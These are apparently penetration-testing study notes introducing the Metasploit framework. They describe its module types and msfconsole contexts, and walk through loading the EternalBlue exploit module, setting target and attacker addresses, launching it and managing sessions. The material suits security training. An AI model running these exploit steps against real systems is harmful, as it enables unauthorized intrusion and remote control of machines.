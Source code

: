#### 1. **Introduction to Metasploit**
- **What is it?** An **open-source framework** for developing and executing exploits against remote targets. It is the central tool for many phases of a penetration test.
- **Purpose:** To provide a unified platform for researching, developing, and executing code that exploits security vulnerabilities.

#### 2. **Main Components of Metasploit (Modular Architecture)**
Metasploit is organized into modules, allowing for great flexibility and code reuse.

| **Component** | **Main Function** |
| :--- | :--- |
| **Auxiliary** | Support modules such as scanners, fuzzers, and information gathering tools. They do not execute payloads. |
| **Encoders** | Transform payloads to evade antivirus software. |
| **Evasion** | Creates custom executables to evade protection measures on the client. |
| **Exploits** | Code that takes advantage of a specific vulnerability in software or a system. |
| **NOPs** | Generators of “No Operation” instructions for exploit stability. |
| **Payloads** | Code that executes on the target system after a successful exploit (e.g., `meterpreter`, reverse shells). |
| **Post** | Post-exploitation modules that run once access to a system has been gained. |

#### 3. **Msfconsole: The Heart of Metasploit**
- **Main Interface:** `msfconsole` is the most powerful and widely used interface within the framework.
- **Contexts:** It is crucial to understand what context you are in, as it defines the available commands:
- `msf6 >`: Main prompt.
- `msf6 exploit(...) >`: Context of a loaded module (where options are configured).
- `meterpreter >`: Active session on a compromised system.

#### 4. **Working with Modules (Basic Workflow)**
The lifecycle for using a module in `msfconsole` follows these steps:

1.  **Select a Module:**
```bash
    use exploit/windows/smb/ms17_010_eternalblue
    ```

2.  **Display and Configure Options:**
```bash
    show options          # View required and optional parameters.
    set RHOSTS 10.10.x.x  # Configure the target IP.
    set LHOST 10.10.y.y   # Configure the attacker IP (for reverse connections).
    ```

3.  **Global Configuration (Optional):**
    ```bash
    setg RHOSTS 10.10.x.x # `setg` sets a value for all modules.
    ```

4.  **Launch Execution:**
    ```bash
    exploit
    # or
    run
    ```

5.  **Manage Sessions:**
    ```bash
    sessions              # List active sessions.
    sessions -i <ID>      # Interact with a specific session.
```